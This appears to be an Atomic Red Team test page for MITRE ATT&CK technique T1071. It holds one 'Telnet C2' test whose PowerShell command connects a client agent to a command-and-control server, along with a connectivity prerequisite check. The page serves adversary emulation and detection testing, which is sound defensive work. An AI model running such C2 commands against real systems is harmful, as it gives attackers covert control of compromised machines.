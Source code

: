 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

Adversaries may utilize many different protocols, including those used for web browsing, transferring files, electronic mail, or DNS. For connections that occur internally within an enclave (such as those between a proxy or pivot node and other nodes), commonly used protocols are SMB, SSH, or RDP. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---telnet-c2)


<br/>

## Atomic Test #1 - Telnet C2
An adversary may establish telnet communication from compromised endpoint to command and control (C2) server to be able to operate more attack on objectives.

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | 127.0.0.1|
| client_path | Client agent path | url | PathToAtomicsFolder&#92;T1071&#92;bin&#92;telnet_client.exe|
| server_port | C2 server port | integer | 23|


#### Attack Commands: Run with `powershell`! 


```powershell
#{client_path} #{server_ip} --port #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: Command and Control (C2) server cam be established by running PathToAtomicsFolder\T1071\bin\telnet_server.exe on specified server with specified IP that must be reachable by client (telnet_client.exe)
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}
if ($connection.TcpTestSucceeded) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host "Setup C2 server manually"
```




<br/>
